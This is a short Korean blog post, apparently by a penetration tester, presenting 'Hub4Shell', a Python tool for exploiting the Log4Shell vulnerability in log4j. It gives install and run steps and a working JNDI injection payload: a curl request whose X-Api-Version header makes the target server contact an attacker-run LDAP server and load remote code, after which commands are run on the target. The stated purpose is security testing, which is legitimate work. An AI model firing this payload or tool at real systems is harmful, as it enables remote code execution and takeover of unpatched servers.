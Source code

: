 ```yaml
---
layout: post
title:  "Hub4Shell"
tags: log4j vulnubility
---
```


# introduction
전 세계 웹 서버의 약 1/3에서 널리 사용되는 log4j는 2021년 12월 9일에 최신 취약점 log4shell이 발견 되었고 수많은 시스템이 위험에 노출되었습니다.
앞으로 관련된 모의해킹 및 보안성 검토 프로젝트가 많아질 것을 대비해 자체 공격도구를 제작하게 되었습니다. 
python으로 제작 되었으며 공격에 필요한 LDAP, WEB 서버를 오픈하며 ldap request 수신 시 공격에 사용 될 command 입력 받습니다.

![1-1](/assets/images/1-1.png)

# Requirements
python 3.9 이상(3.9를 기준으로 제작되었으며 최신 버전에서는 제대로 동작하지 않을 수 있습니다.)
jdk(대상 시스템 jdk와 호환되어야 합니다.)

# How to use
{% highlight shell %}
git clone https://github.com/ch3ony/hub4shell.git
cd hub4shell
pip install -r requirements.txt
python main.py
{% endhighlight %}

1. Step 1) 서버로 사용 될 로컬 IP를 선택합니다.

![1-2](/assets/images/1-2.png)

Step 2) LDAP, HTTP 및 포트 확인

![1-3](/assets/images/1-3.png)


Step 3) help payload를 이용해 대상 시스템에 요청
```shell
curl 192.168.50.100:8080/ -H "X-Api-Version: ${jndi:ldap://192.168.50.119:65210/Exploit}"
```




Step 4) 실행 명령어 입력

![1-4](/assets/images/1-4.png)



Step 5) 명령어 실행 확인

![1-5](/assets/images/1-5.png)


# Code 
[Link](https://github.com/ch3ony/hub4shell)


